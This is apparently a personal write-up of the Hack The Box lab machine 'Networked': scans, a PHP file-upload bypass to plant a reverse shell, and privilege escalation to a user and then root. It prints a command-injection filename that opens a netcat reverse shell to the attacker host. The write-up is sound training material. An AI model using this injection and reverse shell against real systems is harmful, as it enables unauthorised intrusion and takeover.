 ```yaml
---
title: HTB - Networked
tags: [Hacking, HTB, Security, Linux, PHP, Easy]
style:
color:
description: Here is my write up for the box Networked via Hackthebox.
---
```


I dont remember exactly when I popped this box, but I believe it was one of the first ones I did.

## 1. Enumeration

Alright, lets get down to it. First things first, nmap scan.

`nmap -Pn -sVC 10.10.10.146`

![nmap](../images/nmap_networked.png "nmap scan")

While that was running, I went ahead and started running both a dirb and nikto scan.

`dirb http://10.10.10.146 -r`

![dirb](../images/dirb_networked.png "dirb scan")

`nikto -h http://10.10.10.146`

![nikto](../images/nikto_networked.png "nikto scan")

## 2. Exploiting PHP

During the enum phase, dirb identified `backup.tar`. Downloading the tar file and unpacking it reveals the workings of `upload.php`. THe `upload.php` file only checks the extension of the file and if its under 60000k.

![upload.php workings](../images/upload_networked.png "upload.php workings")

Since we know how `upload.php` works, we can now upload a reverse shell and bypass the checks by modifying the request via Burp. I used pentestmonkey's handy dandy reverse PHP shell.

![burp modify request](../images/mod_req_networked.png "burp modify request")

## 3. Privilege Escalation to Guly

Now that we have a shell, its time to enumerate some more. First things first, lets see if `www-data` can run anything as root via the `sudo -l` command.

Bummer :(
*insert screenshot of running the sudo -l command*

Going to attempt to transfer `LinEnum` and then run it to see all the interesting things on this machine.

*insert screenshot of LinEnum output*

In the cron jobs section, we notice a job `check_attack`. Reading the contents of this cron job reveals that it checks the uploads folder in the `/var/www/html` directory. Running `ls -la` on that directory shows we dont have read/write access, but were going to try and touch a file in there anyway.

`touch test.txt`

*more screenshots*
Walla! It worked!

Now that we know we can touch a file, lets look at the code in the `check_attack` cron a little more carefully to see if we can exploit this and escalate our privileges. After looking over the code, there is one line that stands out in particularly:

`exec("nohup /bin/rm -f $path$value > /dev/null 2>&1 &");`

If we touch a file into the uploads directory with the following name below:

`;nc 10.10.X.X 4445 -c bash`

Everything after the `;` symbol will be treated as a completely separate command. So when the cron job runs, which is being ran under the user Guly, it will execute the nc command then open a shell back on our attacking machine.

Success!

*more screenshots*

## 4. Privilege Escalation to root

Now that we have a little higher privileges lets do some more enumeration. First things first, checking if we can run anything as root via `sudo`.

`sudo -l`
*more screenshots*

Looks like we can run the above command as root. Quick google search?

Googling `changename.sh`, we find that there is a vulnerability that leads us on the path to get root *make a in-line link to the vulnerability*.

Following the instructions about the vulnerability below, we get root:

*insert screenshot of exploiting the script*

BOOM! Hello there root shell!
*insert screenshot of root shell*

## 5. Conclusion

Overall this was a nice box. For me, the biggest hurdle was moving from www-data to the user Guly. After that it was smooth sailing.

Always remember, enumeration is your best friend! So is Google.
